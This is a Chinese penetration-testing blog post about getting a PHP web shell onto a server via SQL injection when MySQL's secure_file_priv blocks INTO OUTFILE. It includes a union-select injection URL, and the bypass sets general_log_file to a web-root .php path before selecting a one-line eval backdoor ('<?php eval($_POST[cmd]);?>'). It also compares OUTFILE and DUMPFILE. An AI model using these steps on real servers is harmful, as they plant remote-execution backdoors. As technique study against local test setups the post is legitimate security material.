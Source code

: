 ```yaml
---
title: SQL注入写shell不成功后
date: 2018-01-11 13:20:46
tags:
		- SQLi
categories:
		- 渗透技巧

---
```


之前遇到`sql`注入，且是`root`权限后，很容易直接写进去`shell`。现在的`Mysql`数据库的安全性也高了，即使注入得到`mysql`的`root`权限，有时候还是写不进去`shell`。

<!-- more -->

##### SQL 注入写 shell



	http://127.0.0.1:8000/waf/test.php?id=-1' union select 1,2,3 --+

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-11/29934024.jpg)

`root`权限

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-11/90894676.jpg)

写一句话的时候，报错。如果能进入`phpmyadmin`后台，可以试试一个方法。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-11/49908215.jpg)

就是`--secure-file-priv`的问题。

本地测试。

`Mysql`导出文件时报错

	mysql> select host from mysql.user into outfile 'E:\\test\\1.txt';
	ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv opti
	on so it cannot execute this statement

报错原因:`secure_file_priv`设置了指定目录，需要在指定目录下进行数据导出。

	mysql> show variables like '%secure%';
	+------------------+-------+
	| Variable_name    | Value |
	+------------------+-------+
	| secure_auth      | OFF   |
	| secure_file_priv | NULL  |
	+------------------+-------+
	2 rows in set (0.00 sec)

[`secure_file_priv`](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) 参数为空，表示没有可以导出的目录。

>这个参数用来限制数据导入和导出操作的效果，例如执行LOAD DATA、SELECT … INTO OUTFILE语句和LOAD_FILE()函数。这些操作需要用户具有FILE权限。 
如果这个参数为空，这个变量没有效果； 
如果这个参数设为一个目录名，MySQL服务只允许在这个目录中执行文件的导入和导出操作。这个目录必须存在，MySQL服务不会创建它； 
如果这个参数为NULL，MySQL服务会禁止导入和导出操作。这个参数在MySQL 5.7.6版本引入

执行一下命令，在终端是修改不了`secure_file_priv`的值的。

	mysql> show variables like '%secure%';
	+------------------+-------+
	| Variable_name    | Value |
	+------------------+-------+
	| secure_auth      | OFF   |
	| secure_file_priv | NULL  |
	+------------------+-------+
	2 rows in set (0.20 sec)
	
	mysql> set global secure_file_priv = 'D:\\phpStudy\\www\\waf\\shell\\1.txt';
	ERROR 1238 (HY000): Variable 'secure_file_priv' is a read only variable




此时是`root`权限，`into outfile`写不了文件。这个时候，如果能登录到`phpmyadmin`，可以尝试一个方法。

在`phpmyadmin`后台中，查看全局变量：找到`general log file`和`general log`

将`general log`设置为`ON`

`general log file` 设置为`shell`的物理地址。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-11/47520310.jpg)


再执行一个写一句话的`SQL`语句。虽然还有报错，但是已经写入进去了。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-11/49908215.jpg)

在`D:\phpStudy\www\waf\phpinfo.php`中可以看到写入的`php`代码。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-11/75606276.jpg)

访问。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-11/87593369.jpg)

	general_log
	Command-Line Format	--general-log
	System Variable	Name	general_log
	Scope	Global
	Dynamic	Yes
	Permitted Values	Type	boolean
	Default	OFF
	
	Whether the general query log is enabled. The value can be 0 (or OFF) to disable the log or 1 (or ON) to enable the log. The default value depends on whether the --general_log option is given. The destination for log output is controlled by the log_output system variable; if that value is NONE, no log entries are written even if the log is enabled.
	
	general_log_file
	Command-Line Format	--general-log-file=file_name
	System Variable	Name	general_log_file
	Scope	Global
	Dynamic	Yes
	Permitted Values	Type	file name
	Default	host_name.log
	
	The name of the general query log file. The default value is host_name.log, but the initial value can be changed with the --general_log_file option. 

如果登录不了`phpmyadmin`后台，试试能登录`mysql`终端吗？可以试着来执行以下命令。
	
	show variables like '%general%'; #查看配置
	set global general_log = on;  #开启general log模式
	set global general_log_file = 'D:\\phpStudy\www\\waf\\shell.php'; #设置写入shell路径
	select '<?php eval($_POST[cmd]);?>'  #写入shell


##### [SELECT ... INTO Syntax](https://dev.mysql.com/doc/refman/5.7/en/select-into.html)

`window`环境下在`my.ini`中设置		`secure-file-priv="D:/phpStudy/www/waf"` 为数据库的导入和导出路径。

`Ubuntu`环境下

SELECT的SELECT ... INTO形式可以使查询结果存储在变量中或写入文件中。导出数据到文本文件中。

- SELECT ... INTO OUTFILE将选定的行写入文件。可以指定列和行结束符以产生特定的输出格式。 

- SELECT ... INTO DUMPFILE将单行写入文件而不使用任何格式。

* `outfile`

区别：

	mysql> select host from mysql.user into outfile 'D:/phpStudy/www/waf/test.txt';
	Query OK, 3 rows affected (0.00 sec)

内容：

	127.0.0.1
	::1
	localhost

* `dumpfile`

	mysql> select host from mysql.user into dumpfile 'D:/phpStudy/www/waf/test1.txt'
	;
	ERROR 1172 (42000): Result consisted of more than one row

只能导出一行内容。

若把一个可执行2进制文件用`into outfile`函数导出，导出后可能会被破坏，因为`into outfile`函数会在行末写入新行，并且会转义换行符。这样2进制可执行文件会被破坏。这个时候用`into dumpfile`就能导出一个完整的可执行的2进制文件。


##### 参考

[mysql dumpfile 与 outfile 函数的区别](http://vinc.top/2016/06/17/mysql-dumpfile-%E4%B8%8E-outfile-%E5%87%BD%E6%95%B0%E7%9A%84%E5%8C%BA%E5%88%AB/)

[mysql5.7.6以后 的root注入 ](https://www.t00ls.net/viewthread.php?tid=40509)

[mysql进行getshell新姿势](http://www.am0s.com/penetration/267.html)


	

